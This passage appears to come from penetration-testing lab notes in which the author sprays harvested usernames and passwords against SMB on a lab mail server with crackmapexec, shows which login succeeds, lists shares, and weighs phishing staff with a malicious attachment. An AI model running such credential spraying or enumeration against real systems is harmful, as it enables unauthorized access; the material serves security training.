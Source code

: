 Now we have two lists containing the usernames and passwords we have identified so far

Our next step is to use **crackmapexec** and check these credentials against SMB on MAILSRV1
+ We'll specify **--continue-on-success** to avoid stopping at the first valid credentials
```
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
```
+ Above shows that CrackMapExec identified one valid set of credentials
+ This isn't much of a surprise since we retrieved the username and password from the staging script on WEBSRV1
+ However, _john_ could have changed their password in the meantime

The output shows another great CrackMapExec feature: it identified the domain name and added it to the usernames
+ This means that MAILSRV1 is a domain-joined machine and we have identified a valid set of domain credentials

Now that we have valid domain credentials, we need to come up with a plan for our next steps
+ Reviewing the CrackMapExec output and the port scan for MAILSRV1, we don't have many options
+ We have identified the mail server and SMB, but no services such as WinRM or RDP
+ In addition, the scan showed that _john_ is not a local administrator on MAILSRV1 as indicated by the missing _Pwn3d!_

This provides us with two options
+ We can further enumerate SMB on MAILSRV1 and check for sensitive information on accessible shares or we can prepare a malicious attachment and send a phishing email as _john_ to _daniela_ and _marcus_ 

We should be aware that CrackMapExec outputs _STATUS_LOGON_FAILURE_ when a password for an existing user is not correct, but also when a user does not exist at all
+ Therefore, we cannot be sure at this point that the domain user accounts _daniela_ and _marcus_ even exist

Let's choose option one first and leverage CrackMapExec to list the SMB shares and their permissions on MAILSRV1 by providing **--shares** and _john_'s credentials
+ We may identify accessible shares containing additional information that we can use for the second option
```
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares  
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.50.242  445    MAILSRV1         [+] Enumerated shares
SMB         192.168.50.242  445    MAILSRV1         Share           Permissions     Remark
SMB         192.168.50.242  445    MAILSRV1         -----           -----------     ------
SMB         192.168.50.242  445    MAILSRV1         ADMIN$                          Remote Admin
SMB         192.168.50.242  445    MAILSRV1         C$                              Default share
```